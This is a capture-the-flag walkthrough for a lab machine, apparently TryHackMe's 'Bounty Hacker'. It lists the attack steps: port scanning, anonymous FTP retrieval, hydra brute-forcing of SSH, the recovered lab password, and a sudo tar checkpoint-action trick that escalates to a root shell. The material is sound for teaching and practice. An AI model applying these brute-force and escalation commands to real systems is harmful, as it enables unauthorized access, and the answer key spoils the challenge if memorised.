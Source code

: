 # Bounty Hacker

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

- Deploy the machine.

	  no answer needed

- Find open ports on the machine

	  no answer needed

	- `nmap -Pn <TARGET_IP>`

- Who wrote the task list?

	- `ftp <TARGET_IP>`
	- `user`
	- `anonymous`
	- `recv locks.txt`
	- `recv task.txt`
	- `cat task.txt`
	- `lin`

- What service can you bruteforce with the text file found?

	- `ssh`

- What is the users password? 

	- `hydra -s 22 -v -V -l 'lin' -P locks.txt -t 8 <TARGET_IP> ssh`
	- `RedDr4gonSynd1cat3`

- user.txt

	- `ssh lin@<TARGET_IP>` and the enter `yes` and the password `RedDr4gonSynd1cat3`
	- `ls`
	- `cat user.txt`
	- `THM{******SyNd1C4T3}`

- root.txt

	- Type `sudo -l`, enter the password and you can see lin user can run `tar` command with sudo.
	- Search on [GTFObins](https://gtfobins.github.io/) `tar`
	- Then search for `sudo`
	- Found this: `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
	- Execute this and then `cat /root/root.txt`
	- `THM{*************}`




